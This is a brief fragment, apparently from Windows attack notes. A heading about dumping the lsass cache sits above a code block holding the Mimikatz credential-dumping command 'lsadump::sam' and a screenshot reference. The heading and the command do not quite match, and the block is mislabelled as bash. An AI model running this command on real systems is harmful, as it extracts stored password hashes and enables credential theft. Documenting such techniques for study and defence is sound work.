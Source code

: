 - Dump the cache of the `lsass` process

```bash
lsadump::sam
```

![lsadump::sam](windows-attacksassets/image-20230318104523998.png)
